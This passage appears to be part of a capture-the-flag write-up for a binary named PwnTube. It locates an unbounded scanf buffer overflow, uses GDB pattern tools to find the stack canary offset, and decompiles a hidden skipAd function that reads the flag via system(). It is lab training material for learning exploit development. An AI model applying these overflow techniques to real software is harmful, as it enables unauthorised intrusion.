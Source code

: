 The first argument of local_208's scanf is %s, which does not specify the number.
Buffer overflow can occur here.

Run this binary with GDB: `gdb -q PwnTube`

input:

```text
set follow-fork-mode parent
b *buy_premium+426
pattc 600
r
777
5
2
<pattc 600 output>
dummycardnumber
```

gdb:

```gdb
[----------------------------------registers-----------------------------------]
RAX: 0x414d734137734168 ('hAs7AsMA')
(snip)
[-------------------------------------code-------------------------------------]
   0x555555555752 <buy_premium+419>:    jmp    0x555555555755 <buy_premium+422>
   0x555555555754 <buy_premium+421>:    nop
   0x555555555755 <buy_premium+422>:    mov    rax,QWORD PTR [rbp-0x8]
=> 0x555555555759 <buy_premium+426>:    sub    rax,QWORD PTR fs:0x28
   0x555555555762 <buy_premium+435>:    je     0x555555555769 <buy_premium+442>
   0x555555555764 <buy_premium+437>:    call   0x555555555060 <__stack_chk_fail@plt>
   0x555555555769 <buy_premium+442>:    leave
   0x55555555576a <buy_premium+443>:    ret
(snip)

gdb-peda$ patts
Registers contain pattern buffer:
RAX+0 found at offset: 504
(snip)
```

the offset of canary is 504.

Decompiled skipAd function with Ghidra:

```c
void skipAd(int param_1,int param_2)

{
  long in_FS_OFFSET;
  undefined7 local_1f;
  undefined uStack_18;
  undefined7 uStack_17;
  long local_10;

  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  clearScreen();
  local_1f = 0x662f2e20746163;
  uStack_18 = 0x6c;
  uStack_17 = 0x7478742e6761;
  // cat /flag.txt

  if ((param_1 == -0x21524111) && (param_2 == -0x1120532)) {
    puts("\nYou did not give me up :)\nYou earned this:\n");
    system((char *)&local_1f);
  }
  // (snip)
```